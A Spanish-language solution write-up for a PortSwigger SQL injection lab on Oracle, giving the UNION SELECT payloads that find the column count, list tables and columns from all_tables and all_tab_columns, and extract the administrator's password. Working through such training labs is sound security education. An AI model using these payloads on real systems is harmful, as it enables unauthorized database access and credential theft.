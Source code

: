 # PortSwigger - SQL injection


## Lab: SQL injection attack, listing the database contents on Oracle


## Solución

Primero hacemos click en el botón **Gifts** o en cualquier otro.

![](./imagenes/lab10-1.png)

Como en los demás retos la SQL injection está en la url. 

Para comenzar a enumerar en Oracle siempre debemos especificar una tabla, pero como no conocemos ninguna usaremos [**dual**](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm).

```sql
' UNION SELECT null from dual-- -
```

![](./imagenes/lab10-2.png)

Con un solo `null` la página nos devuelve un error, pero si seguimos agregando nos damos cuenta que existen 2 columnas.

```sql
' UNION SELECT null,null from dual-- -
```

![](./imagenes/lab10-3.png)

Ahora es tiempo de enumerar el nombre de la tabla donde se encuentran las credenciales, para eso usaremos la tabla **all_tables** y seleccionaremos el nombre de las tablas con **table_name**.

```sql
' UNION SELECT table_name,null from all_tables-- -
```

![](./imagenes/lab10-4.png)

Con `CTRL + f` escribimos **USERS** y podemos encontrar de manera más rapida la tabla que nos interesa `USERS_XKMLUO`.

![](./imagenes/lab10-5.png)

Ahora enumeraremos los nombres de las columnas. Para eso usaremos la tabla `all_tab_columns`, le indicaremos que queremos la columna `column_name` y que nos muestro solo la tabla con nombre `USERS_XKMLUO`.

```sql
' UNION SELECT column_name,null from all_tab_columns where table_name = 'USERS_XKLMUO'-- -
```

- Ten en cuenta que la string después del guión bajo (`_XKLMUO`) es aleatorio para cada usuario, por lo tanto, la tuya será diferente a la mía. Además ten en consideración las mayúsculas, escribe la tabla y las columnas en maýusculas cuando corresponda. Finalmente ten cuidado con las comillas porque también puede darte error.

![](./imagenes/lab10-6.png)

Podemos ver que nos devuelve los 2 nombres de las columnas `PASSWORD_UJZJJK` y `USERNAME_HIFSMI`.

![](./imagenes/lab10-7.png)

Con esta información podemos terminar de construir nuestro query.

Primero reemplazamos los null por los nombres de las columnas y le indicamos sobre qué tabla debe sacar la información.

```sql
' UNION SELECT PASSWORD_UJZJJK,USERNAME_HIFSMI from USERS_XKLMUO-- -
```

![](./imagenes/lab10-8.png)

Podemos ver las credenciales de la cuenta de administrador.

![](./imagenes/lab10-9.png)

Hacemos click en el botón **My account**.

![](./imagenes/lab10-10.png)

Ingresamos las credenciales.

![](./imagenes/lab10-11.png)

Y resolvemos el laboratorio.

![](./imagenes/lab10-12.png)

